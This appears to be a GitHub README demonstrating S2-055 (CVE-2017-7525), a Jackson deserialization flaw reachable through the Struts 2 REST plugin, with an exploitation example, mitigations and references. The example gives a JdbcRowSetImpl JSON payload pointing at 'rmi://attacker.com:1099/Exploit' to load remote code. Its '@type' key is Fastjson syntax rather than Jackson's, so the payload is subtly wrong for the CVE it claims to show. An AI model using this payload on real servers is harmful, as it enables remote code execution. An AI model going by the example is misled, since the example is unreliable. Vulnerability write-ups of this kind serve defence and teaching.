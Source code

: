 # S2-055: CVE-2017-7525 Vulnerability Demonstration

## Overview
CVE-2017-7525 is a Remote Code Execution (RCE) vulnerability in the Jackson JSON library. This vulnerability can be exploited by sending a crafted JSON payload to an application using the Struts 2 REST plugin. The vulnerability arises from unsafe deserialization of JSON data.

## Affected Versions
- Apache Struts 2.5 to 2.5.14

## Exploitation Example

The following steps demonstrate how this vulnerability can be exploited:

1. **Setup**: Ensure the application uses the Struts 2 REST plugin and a vulnerable version of the Jackson JSON library (e.g., versions prior to 2.9.2).

2. **Crafted Payload**: An attacker sends a malicious JSON payload to the server. For example:

   ```json
   {
       "@type": "com.sun.rowset.JdbcRowSetImpl",
       "dataSourceName": "rmi://attacker.com:1099/Exploit",
       "autoCommit": true
   }
   ```

   This payload exploits the unsafe deserialization in the Jackson library to execute arbitrary code.

3. **Result**: The server processes the payload, leading to the execution of the attacker's code.

## Mitigation
To mitigate this vulnerability:
1. Upgrade to Apache Struts version 2.5.14.1.
2. Manually update the Jackson JSON library to version 2.9.2 or later.
3. Avoid using unsafe deserialization in your application.

## Important Notes
- This example is for educational purposes only. Do not use this information for malicious activities.
- Always validate and sanitize user inputs to prevent exploitation.

## References
- [Apache Struts Security Bulletin S2-055](https://cwiki.apache.org/confluence/display/WW/S2-055)
- [Jackson Databind Issue #1599](https://github.com/FasterXML/jackson-databind/issues/1599)
